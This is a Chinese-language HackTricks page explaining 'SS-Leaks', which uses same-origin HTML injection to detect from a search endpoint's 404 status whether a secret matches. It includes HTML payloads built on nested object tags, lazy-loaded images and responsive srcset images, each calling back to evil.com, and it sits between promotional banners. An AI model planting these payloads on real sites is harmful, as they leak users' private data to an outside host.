 # SS-Leaks

<details>

<summary><strong>从零到英雄学习AWS黑客技术，参加</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>课程！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在**HackTricks上看到您的公司广告**或**下载HackTricks的PDF版本**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。**

</details>

这是**悬挂标记和XS-Leaks**之间的**混合**。一方面，漏洞允许在与我们将要攻击的页面**同源**的页面中**注入HTML**（但不是JS）。另一方面，我们不会直接**攻击**我们可以注入HTML的页面，而是**另一个页面**。

## 嵌套对象

如果<mark style="color:yellow;">`/api/v1/leaky?secret=a`</mark>端点返回404状态码，则内部`object`会被加载，给<mark style="color:yellow;">`https://evil.com?callback=a`</mark>一个回调，并让我们知道搜索查询`a`没有结果。
```html
<object data="/api/v1/leaky?secret=a">
<object data="https://evil.com?callback=a"></object>
</object>
```
### 懒加载

如果CSP阻止了外部对象怎么办？让我们再试一次以下的CSP：

<mark style="color:yellow;">`Content-Security-Policy: default-src 'self'; img-src *;`</mark>

我们上面的回调`object`不再起作用。我们可以使用图片[懒加载](https://developer.mozilla.org/en-US/docs/Web/Performance/Lazy_loading)来替代！以下图片只会在其可见且距离视口一定距离内时加载。
```html
<object data="/api/v1/leaky?secret=a">
<img src="https://evil.com?callback" loading="lazy">
</object>
```
### 响应式图片

上述技术非常有效，但它依赖于我们的HTML注入位于用户的视口内。

如果注入在屏幕之外，用户没有滚动，我们还能泄露数据吗？当然可以，我们可以使用元素ID和[scroll-to-text-fragment](https://chromestatus.com/feature/4733392803332096)来创建一个强制滚动的URL，但这些依赖于用户互动，并且不允许我们在现实世界场景中实现一致的泄露。理想情况下，我们希望以可靠的方式武器化存储的HTML注入。

引入响应式图片！具体来说，就是图片的`srcset`和`sizes`属性。

{% code overflow="wrap" %}
```html
<object data="/api/v1/leaky?secret=a">
<iframe srcdoc="<img srcset='https://evil.com?callback=1 480w, https://evil.com?callback=0 800w' sizes='(min-width: 1000px) 800px, (max-width 999px) 480px'>" width="1000px">
</object>
```
{% endcode %}

这里有很多内容需要解释。首先，记住内部iframe只有在泄露端点返回404状态码时才会可见。

这很重要，因为我们现在将有条件地从两个不同的URL在iframe中加载图片。使用`sizes`属性，我们可以使用[媒体查询](https://developer.mozilla.org/en-US/docs/Web/CSS/CSS_media_queries/Using_media_queries)根据视口大小选择从哪个URL加载图片。

{% code overflow="wrap" %}
```html
<img
srcset='https://evil.com?callback=0 800w, https://evil.com?callback=1 480w'
sizes='(min-width: 1000px) 800px, (max-width 999px) 480px'
>
```
{% endcode %}

因为我们的iframe设置了`width="1000px"`，以下情况会发生：

1. 如果leaky endpoint返回404状态码，iframe会被显示并且宽度为1000px。iframe内的图片符合`(min-width: 1000px)`媒体查询，并从`https://evil.com?callback=0`加载800px的图片。
2. 如果leaky endpoint返回200状态码，iframe将_不会_显示。由于图片不是作为大型iframe的一部分渲染的，它符合`(max-width 999px)`媒体查询，并从`https://evil.com?callback=1`加载480px的图片。

## 参考资料

* [https://infosec.zeyu2001.com/2023/from-xs-leaks-to-ss-leaks](https://infosec.zeyu2001.com/2023/from-xs-leaks-to-ss-leaks)

<details>

<summary><strong>从零开始学习AWS hacking，成为</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

支持HackTricks的其他方式：

* 如果您希望在**HackTricks**中看到您的**公司广告**或**下载HackTricks的PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方的PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs**](https://opensea.io/collection/the-peass-family)系列
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的hacking技巧。

</details>
